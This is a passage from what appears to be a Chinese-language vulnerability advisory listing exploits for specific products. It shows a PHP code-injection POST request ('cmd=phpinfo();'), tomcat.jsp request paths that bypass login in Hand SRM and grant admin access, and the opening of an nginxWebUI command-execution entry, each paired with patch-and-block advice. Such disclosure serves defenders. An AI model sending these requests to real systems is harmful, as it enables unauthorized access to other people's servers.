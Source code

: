 





```
POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71
Host:

cmd=phpinfo();
```





**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。

#####             16.     **汉得SRM tomcat.jsp 文件存在登陆绕过漏洞**

**漏洞描述**：汉得SRM tomcat.jsp 文件存在登陆绕过漏洞, 攻击者通过发送请求包，可以获取后台管理员权限。

**漏洞等级：**高

**漏洞类型：****0day/1day/nday**

**影响版本：**汉得SRM

**漏洞详情：**

![img](https://wdcdn.qpic.cn/MTY4ODg1NDI4MDM2MjE0OQ_55076_sYMCTAR9NkoEFbvB_1691814159?w=1063&h=231&type=image/png)



```
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```





访问跳转后台



```
/main.screen
```





**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。





#####             17.     **nginxWebUI 远程命令执行漏洞**

**漏洞描述：**nginxWebUI由于未对用户的输入进行严格过滤，导致任意命令执行漏洞。

**漏洞等级：**高
